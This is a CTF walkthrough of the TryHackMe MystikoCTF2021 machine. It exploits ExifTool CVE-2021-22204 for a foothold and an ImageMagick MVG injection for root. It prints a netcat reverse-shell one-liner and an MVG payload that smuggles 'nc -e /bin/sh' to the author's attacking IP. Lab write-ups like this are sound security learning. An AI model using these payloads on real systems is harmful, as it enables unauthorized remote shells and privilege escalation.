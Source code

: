 ```yaml
---
title: MystikoCTF - THM - Walkthrough
tags: web thm privesc
---
```


![photo_2021-02-10_22-58-30](https://user-images.githubusercontent.com/84577967/174065612-9a8249f1-005f-4ba3-a752-d4b1ed44df25.jpg){:.circle}

Date: 21<sup>st</sup> / 22<sup>nd</sup> November 2021

## Description

> This is my writeup for the recent ctf hosted by Mystiko, the CTF was hosted on TryHackMe and was too much fun, So I would like to thank the team for making this really challenging and also for the great machine.

- THM Link: [MystikoCTF2021](https://tryhackme.com/room/mystikoctf2021)

- Difficulty: <font size="3" color="orange">Medium</font>

I unfortunately didn't have much time for the whole CTF, but I ended up sharing the third position with `cryptonic007`.

# Enumeration

The CTF had 3 different webapps

> Only PIXEL, DEV01 and DEV02 are in scope for this CTF. Do NOT attack any other IP address or hostname.

So as a start and as usual we should run nmap:

```bash
> nmap -sC -sV 10.10.206.211 -vvv                                             
```
We got 2 opened ports 22 (SSH) and 8080 (Nginx WebServer)

Let's dig into the webserver

![2021-11-22_16-15-23](https://user-images.githubusercontent.com/84577967/174065713-a0a47901-3b89-4414-a30e-02d3615dbe00.png)


We have a kind of images uploader, I opened the source page to see if there is anything hidden as comments but there were nothing, and I also confirmed that its accepting only images.

![2021-11-22_16-17-33](https://user-images.githubusercontent.com/84577967/174065741-f3cc5bfc-daf1-47f3-a4fd-2d14d9f6805e.png)


I had to upload an image and go to burpsuite, to see what going on actually

![2021-11-22_16-21](https://user-images.githubusercontent.com/84577967/174065770-d9db02ce-0dc7-4446-b6f7-f514078ed2f4.png)


I tried to manipulate the file extension and also the Mime Type with multiple methods but nothing was working, but I eventually noticed something in the response

![2021-11-22_16-22](https://user-images.githubusercontent.com/84577967/174065788-51716dc6-0104-47b2-8582-22839af29029.png)


And that was a hidden HTML headings that has some output from the picture I uploaded (mime type,size,image size) and also was starting with a weird `10.61` that looks like a version number !

So I thought probably doing exiftool job, so I had to look for a recent vulnerability of exiftool `CVE-2021-22204` that I had never the chance to try it ... 

# Foothold

I tried multiple public cve's and I eventually ended up with a working one

https://github.com/bilkoh/POC-CVE-2021-22204

Using this command line I was able create the evil picture

![2021-11-22_16-52-54](https://user-images.githubusercontent.com/84577967/174065814-033ab445-5963-42a8-bed3-5bb71f6a41a4.png)


So the picture will download a file `shell.sh` from my attacking webserver and run it

`shell.sh` : 
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.2.95.202 9009 >/tmp/f
```

Let's upload the file 

![2021-11-21_13-29-19](https://user-images.githubusercontent.com/84577967/174065844-908a9f8d-be3d-4845-9b52-38593cb0fe39.png)


So after I set my listener and I uploaded the file I succeeded in getting a reverse shell 

![2021-11-22_16-56-09](https://user-images.githubusercontent.com/84577967/174065877-995382ea-7c6f-4bcb-999e-2fcc57128155.png)


Getting the first flag `local.txt` was pretty easy, the flag was in the home directory of our current user `pixel` and I was able to read it without any restrictions.

![2021-11-21_13-29-07](https://user-images.githubusercontent.com/84577967/174065895-f63a0342-78b3-413c-afe6-74034df064a5.png)


# Privilege Escalation

The first thing I ever do is typing `sudo -l`, to check if there is any commands I can execute with sudo.

![2021-11-21_13-30-34](https://user-images.githubusercontent.com/84577967/174065911-af8a4420-9d19-4ab2-8f98-74feca2b3ed2.png)


Great ! we have a binary named pixel I copied the binary to my machine for some reversing ...

![2021-11-21_13-31-02](https://user-images.githubusercontent.com/84577967/174065932-53d5f67c-92e4-4bf1-9ab0-20a30b8053ee.png)


I also opened it in ghidra, but nothing was too interesting

![2021-11-22_17-19-53](https://user-images.githubusercontent.com/84577967/174065960-2b860b8b-21c9-4215-8fc5-deff78ed1ef8.png)


Then I had to run the binary in my machine to see what this thing is doing actually ...

![2021-11-21_13-31-10](https://user-images.githubusercontent.com/84577967/174065988-93c4886a-cd16-42d4-ae09-18656dc04771.png)


Kind of an Image Toolkit created by `SIXER` team, I choosed to convert an image to a PDF file and see what will happen ...

![2021-11-21_13-32-36](https://user-images.githubusercontent.com/84577967/174066023-b2b56f4d-0d32-4cf4-b132-57be2cb43797.png)


The `Generating PDF` line show us that the binary is using another binary `/usr/local/bin/convert` to convert the image to a PDF file, and I recently just had an experience with the 2016's `convert` exploit, so I quickly go back the Pixel machine and check for the `convert` version

![2021-11-21_13-33-01](https://user-images.githubusercontent.com/84577967/174066040-8cc05195-ad7b-4a72-915a-ee83e6899263.png)


And yes ! the version was vulnerable, so by google `ImageMagick exploit` you will get a bunch of articles that explains this vulnerability and shows multiple ways to exploit it.

So I went with this steps:

1) Go to `/tmp/` directory.

1) Create a new file `exploit.mvg`:

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|nc -e "/bin/sh" "10.2.95.202" "9009)'
pop graphic-context
```
![2021-11-21_13-27-19](https://user-images.githubusercontent.com/84577967/174066067-cb5331e8-00a6-48d7-a851-cbfd26c9fb04.png)


2) Set my listener on port 9009:

  ```
  nc -lvnp 9009
```
3) Run `sudo /usr/bin/pixel` and follow the steps as the image shows (instead of `x.jpg` enter `exploit.mvg`)

![2021-11-21_13-32-36](https://user-images.githubusercontent.com/84577967/174066087-18504f00-3749-4129-90cc-5ab238b6514e.png)


4) Going back to my listener to check if I got a reverse shell:

![2021-11-21_13-35-30](https://user-images.githubusercontent.com/84577967/174066111-a6238dc3-d7b7-48a8-8e7e-474ade679153.png)


And yes ! I was root and able to read the second flag `proof.txt`

![2021-11-22_17-34-28](https://user-images.githubusercontent.com/84577967/174066152-8befadde-2aea-4454-b8ca-e03a52150dc2.png)


---
Hope you enjoyed my writeup like I enjoyed playing the CTF.

Regards,
AB2.